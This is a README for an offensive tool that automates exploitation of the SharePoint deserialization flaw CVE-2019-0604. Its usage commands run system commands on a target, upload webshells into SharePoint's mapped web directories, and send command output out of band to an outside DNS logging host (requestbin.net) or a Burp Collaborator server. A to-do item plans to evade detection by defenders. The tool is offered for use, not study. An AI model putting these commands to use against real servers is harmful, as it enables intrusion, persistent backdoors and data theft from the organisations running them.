 # Weaponized CVE-2019-0604

Automated Exploit Tool to Maximize CVE-2019-0604. 

## Requirement

The `requirements.txt` file should list all Python libraries this tool used, and they'll be installed using

```
$ pip install -r requirements.txt
```

## Manual blind exploit (with(out) credential)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --ntlm -U <uname>:<passwd>
```

## Upload function

upload anything cool (webshell, recon tool ...)

```
Upload cmd.aspx to rcmd.aspx
--file-from /path/to/cmd.aspx --file-to /path/to/web_dir/rcmd.aspx
```

### Directory Mapping

```
Sharepoint Default Web Virtual Dir:
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_app_bin\ -> <target>/_app_bin/
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_vti_pvt\ -> <target>/_vti_pvt/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\layouts\ -> <target>/_layouts/15/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\controltemplates\ -> <target>/_controltemplates/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\login\ -> <target>/_login/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\windows\ -> <target>/_windows/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\wpresources\ -> <target>/_wpresources/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\isapi\ -> <target>/_vti_bin/
```

## Use OOB to get command result

### With [collaborator\_http\_api](https://github.com/tree-chtsec/burp-python-plugins) Burp Extension

1. Install `collaborator_http_api.py` into BurpSuite (Pro)?

2. Make sure BurpSuite running on the same machine with this exploit.

3. Fire, enjoy the retrieved output :)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --collab --ntlm -U <uname>:<passwd>
```

![sharepoint-rce-oob-demo](SHAREPOINT_RCE_OOB.png)

### With DNSLog s.t. requestbin.net
```sh
$ python exploit.py -u <url-to-picker.aspx> -r <path/to/reqFile> --oob 8486990041a11aaa43ce.d.requestbin.net -c "whoami /priv"
```

Get Data From dns
```
2050524956494c4547455320494e464f524d4154494f4e
...
```

Decoded by yourself :)
```
 PRIVILEGES INFORMATION
...
```

## TODO
- [x] Argument Parser
- [x] SharePoint, CVE-2019-0604
- [ ] split cmd into multiple parts (in args.cmds)
- [ ] specify binary on demand, avoiding detection by blue team. (hardcode cmd.exe currently)

## Author
* Tree
